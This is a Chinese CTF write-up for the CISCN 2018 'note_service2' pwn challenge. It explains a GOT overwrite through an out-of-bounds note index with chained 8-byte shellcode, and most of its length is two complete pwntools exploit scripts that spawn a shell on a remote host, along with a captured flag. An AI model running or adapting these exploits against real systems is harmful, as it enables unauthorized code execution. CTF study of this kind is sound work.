


# 标题

> ciscn-online-note_service2

## **原理**

编写shellcode

## **环境**
Ubuntu 16.04 

## **工具**
ida pro，gdb
## **步骤**

首先检查这道题的保护机制：



relro没有全开，nx没有开，说明我们可以用shellcode改写got表的值。



没有限制No的大小。

在del中还有一个可以利用的uaf，但是没什么用处。

但是在add中我们也可以发现shellocde 的输入长度不能超过8个字节。但是我们可以构造shellcode链。

这道题 和 pwnable.tw的 alive_note很相似，我会在结尾附上相关writeup链接，还有汇编指令与机器码的对照表。

完整exp如下：

```
from pwn import *
from ctypes import *
debug = 0
elf = ELF('./task_note_service2_OG37AWm')
context.update(arch = 'amd64')
#ciscn{93707fa0f2eca125f3998d0c6fb1a932}
if debug:
	p = process('./task_note_service2_OG37AWm')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
	context.log_level = 'debug'
	gdb.attach(p)
else:
	p = remote('117.78.43.123', 31128)
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')

def add(index,content):
	p.recvuntil('your choice>>')
	p.sendline('1')
	p.recvuntil('index')
	p.sendline(str(index))
	p.recvuntil('size')
	p.sendline(str(8))	
	p.recvuntil('content')
	p.send(content)

add(0,'/bin/sh')
add((elf.got['free']-0x2020A0)/8,asm('xor rsi,rsi')+'\x90\x90\xe9\x16')
add(1,asm('push 0x3b\n pop rax')+'\x90\x90\xe9\x16')
add(2,asm('xor rdx,rdx')+'\x90\x90\xe9\x16')
add(3,asm('syscall')+'\x90'*5)

p.recvuntil('choice')
p.sendline('4')
p.recvuntil('index')
p.sendline('0')
p.interactive()
```

布置好shellcode代码块，并且通过jmp连接起来，通过数据越界，改写aoti指针跳转至shellcode。

另一个exp：


```
#/usr/env/bin python
#-*- coding: utf-8 -*- 
from pwn import *
import sys

r = lambda x:io.recv(x)
ru = lambda x:io.recvuntil(x)
rud = lambda x:io.recvuntil(x,drop=True)
se = lambda x:io.send(x)
sel = lambda x:io.sendline(x)
sea = lambda x:io.sendafter(x)
sela = lambda x:io.sendlineafter(x)
pick32 = lambda x:u32(x[:4].ljust(4,'\0'))
pick64 = lambda x:u32(x[:8].ljust(8,'\0'))

def add(index,size,content):
    ru('your choice>> ')
    sel(str(1))
    ru('index:')
    sel(str(index))
    ru('size:')
    sel(str(size))
    ru('content:')
    se(content)

def delete(index):
    ru('your choice>> ')
    sel(str(4))
    ru('index:')
    sel(str(index))

def exploit(flag):
    payload = asm('pop rax')
    payload += asm('push rax')
    payload += asm('xor rbx,rbx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(-17,8,payload)

    payload = asm('mov ebx,0xe2d')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('sub rax,rbx')   #rax=proc_base
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov r14,rax')   #rax=proc_base
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov ebx,0x202020')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('add rax,rbx')   #rax=proc_base
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov rdi,rax')   
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('call qword ptr [rax]')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov ebx,0x20209C')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('add r14,rbx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov byte ptr [r14],0')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('ret')
    payload = payload.ljust(0x7,"\x90")
    add(0,8,payload)

    delete(0)

    puts=u64(io.recv(6).ljust(0x8,'\x00'))
    log.info('puts:'+hex(puts))
    libc.address = puts-libc.symbols['puts']
    system = libc.symbols['system']
    __libc_start_main = libc.symbols['__libc_start_main']
    offset = system-__libc_start_main

    add(10,8,'/bin/sh')

    payload = asm('pop rax')
    payload += asm('push rax') 
    payload += asm('xor rbx,rbx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(-17,8,payload)

    payload = asm('mov ebx,0xe2d')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('sub rax,rbx')   #rax=proc_base
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov r15,rax')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov r14,r15')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov ebx,0x20209C')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('add r14,rbx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov byte ptr [r14],0')
    payload += asm('ret')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    delete(0)

    #gdb.attach(io,'b *'+hex(proc_base+0xE28))
    payload = asm('mov rax,r15')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(-17,8,payload)

    payload = asm('mov ebx,0x202048')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('add rax,rbx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov rax,qword ptr [rax]')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('mov ebx, '+hex(offset))
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('add rax,rbx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('xor rsi,rsi')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('xor rdx,rdx')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)

    payload = asm('jmp rax')
    payload = payload.ljust(0x5,"\x90")
    payload += "\xeb\x19"
    add(0,8,payload)
    delete(10)

    io.interactive()

if __name__ == "__main__":
    context.binary = "./note"
    context.terminal = ['tmux','sp','-h','-l','105']
    context.log_level = 'debug'
    elf = ELF('./note')
    if len(sys.argv)>1:
        io = remote(sys.argv[1],sys.argv[2])
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        exploit(0)
    else:
        io = process('./note')
        libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
        print io.libs()
        proc_base = io.libs()['/mnt/hgfs/Binary/CTF/2018/ciscn2018/note-service/workspace/note']
        log.info('proc_base:'+hex(proc_base))
        libc_base = io.libs()['/lib/x86_64-linux-gnu/libc.so.6']
        log.info('libc_base:'+hex(libc_base))
        exploit(1)

```

## **参考阅读**

[【pwnable.tw】 alive_note](http://www.cnblogs.com/p4nda/p/7992951.html)

[汇编指令机器码对应表](https://wenku.baidu.com/view/bf5227ecaeaad1f346933f86.html)